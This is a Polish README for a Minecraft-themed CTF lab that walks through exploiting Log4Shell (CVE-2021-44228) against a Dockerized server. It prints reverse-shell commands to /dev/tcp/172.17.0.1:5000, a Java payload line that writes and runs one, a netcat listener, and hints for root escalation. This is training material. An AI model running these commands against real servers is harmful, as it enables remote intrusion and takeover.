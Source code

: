 # minecraft-ctf

## Wprowadzenie
Witamy w `minecraft-ctf`, wyjątkowym wyzwaniu CTF stworzonym specjalnie dla Was! Twoim zadaniem będzie zdobycie flagi, wykorzystując podatność Log4j oraz kilka innych narzędzi, a to wszystko co najlepsze, z użyciem gry, którą chyba każdy zna! Przygotuj się na fascynujące wyzwanie! Owocnego hackowania i udanej zabawy!

## Wymagania
- Docker
- Java (do uruchomienia clienta Minecrafta - jeśli jej nie masz, pobierz i zainstaluj)
- Minecraft Launcher
- NetCat (użyj WSL lub zainstaluj na Windowsie)

## HARD - Ogólny zarys postępowania
1. Uruchom server docker z serverem Minecraft:
   - `docker run -p 25565:25565 -it kwasnyy/mcctf:mcexpl`
2. Wykorzystaj podatność CVE-2021-44228 do uzyskania reverse shell
   - napoczęty `marshalsec/Dockerfile` może ci ułatwić,
   - tak samo masz `codehttp/` gdzie manipulować trzeba tylko linijką pod "// TODO" w pliku `Log4jRCE.java`
3. Interesujący cię plik jest umieszczony gdzieś na systemie,
4. Rozejrzyj się po plikach w folderze `/server`
5. Po odczytaniu flagi zapraszamy do wspólnej gry :)


## EASY - Krok po kroku

### 0. Uruchamianie SKLauncher
   1. Otwórz SKLauncher, który również znajduje się w repozytorium.
   2. Wybierz tryb offline.
   3. Kliknij '+' obok "Installations Manager".
   4. Wybierz release 1.8.8, zapisz i naciśnij PLAY.

### 1. Uruchomienie serwera Minecraft
   1. **Uruchom Minecraft'a:**
      - `docker run -p 25565:25565 -it kwasnyy/mcctf:mcexpl`
      - po zbudowaniu kontenera i uruchomieniu, w trybie Multiplayer w grze, dodaj serwer pod adresem 127.0.0.1.

### 2. Wykorzystaj podatnośc CVE-2021-44228 do uzyskania reverse shell


<details>
<summary><b>Informacje o kontenerach</b></summary>
Dwa spośród trzech odpalonych przez Ciebie kontenerów są "Twoje" - jako hacker je kontrolujesz. Nienależącym do Ciebie jest ten hostujący serwer Minecraft'a, do którego chcesz uzyskać dostęp. Pozostałe kontenery pomogą Ci w tej misji.
</details>

   1. **Uruchom serwer LDAP:**
      - `cd marshalsec`
      - znając schemat działania *JNDI* ustaw w Dockerfile adres IP i PORT gdzie będzie wystawiony kod do wykonania na serwerze Minecrafta,
      - `docker build . -t marshal`
      - `docker run -p 1389:1389 -ti marshal`

   2. **Przygotuj kod do połączenia się z reverse shell i wystaw go na serwerze http:**
      - cd `codehttp/`
      - ten kontener służy do serwowania statycznych plików po http,
      - edytuj linijkę w pliku `Log4jRCE.java`,
         1. musisz stworzyć plik, a poten ten plik uruchomić ¯\_(ツ)_/¯, uruchomienie komendy bezpośrednio nie działa,
         2. możesz to zrobić jedną komendą :D
         3. 
            <details>
            <summary><b> Pokaż komendę:</b></summary>

            ```java
            String[] cmd = {"bash", "-c", "echo 'nohup bash -i >/dev/tcp/172.17.0.1/5000 2>&1 0<&1 &' > /server/script.sh; bash /server/script.sh"};
            ```

            </details>
      - podczas budowania obrazu zostanie ten plik do niego skopiowany, a następnie skompilowany,
      - a po uruchomieniu kontenera, będzie serwowany plik "Log4jRCE.class" na porcie *:8888* tego kontenera,
      - zbuduj obraz: `docker build . -t codehttp`,
      - uruchom kontener: `docker run -p 8888:8888 -ti codehttp`,



## Twoje zadanie
Wykorzystaj podatność starej wersji Log4j i inne narzędzia do zdobycia ukrytej flagi. Kod hostowany na httpcode musi być przygotowany i skompilowany. Znajdź i zmodyfikuj bashowy skrypt wykonywany z uprawnieniami roota. Jak uzyskasz uprawnienia roota, możesz odnaleźć w plikach kod, który następnie wpiszesz w serwerze Minecrafta. Jeśli kod okaże się poprawny - gratulacje hackerze/ko ;)

## Przydatne informacje

uzyskania Reverse Shell
```sh
# Nasłuchuj na porcie `5000` na swoim komputerze:
nc -l 5000

# Na komputerze ofiary:
bash -i >& /dev/tcp/[ip kompa na którym jest `nc` włączony]/5000 0>&1

# przykład:
bash -i >& /dev/tcp/172.17.0.1/5000 0>&1
```

### Budowanie obrazu:
```sh
# Stworzenie obrazu kontenera:
docker build . -t <nazwa-obrazu>

# Uruchomienie obrazu z przekierowaniem portów:
docker run -p 25565:25565 -ti <nazwa-obrazu>
```

### Konfiguracja EOL w VSCode
```sh
# Jeśli pracujesz na Windowsie, konieczna może okazać się zmiana EOL - End Of Line:
- Otwórz `Minecraft-Log4j-Exploit/server/start_server.sh`.
- Użyj `CTRL + SHIFT + P`.
- Zmień `EOL sequence`.
```

## Przydatne komendy 

### Docker
```sh
docker build
docker run
docker ps
docker ps -a
docker kill <id>
docker remove <id>
docker image prune
docker container prune
```

## Credits
- [Minecraft-Log4j-Exploit](https://github.com/Justin-Garey/Minecraft-Log4j-Exploit) od Justina Gareya
- [marshalsec](https://github.com/mbechler/marshalsec) od Marcina Bechlera
- [Smallest Docker Image Static Website](https://lipanski.com/posts/smallest-docker-image-static-website) od Vladimira Lipanskiego
- [Mapa Minecraft]() od XXX


TODO:
lf w starcie

wejsc na server mc wpisac komende

jak zatrzymać bash -uzyskania reverse shell?

echo to wbudowana funkcja basha, a nie żadna binarka 

allready allocated port: docker desktop delete container, 

find / -name "*flag*" 2>/dev/null

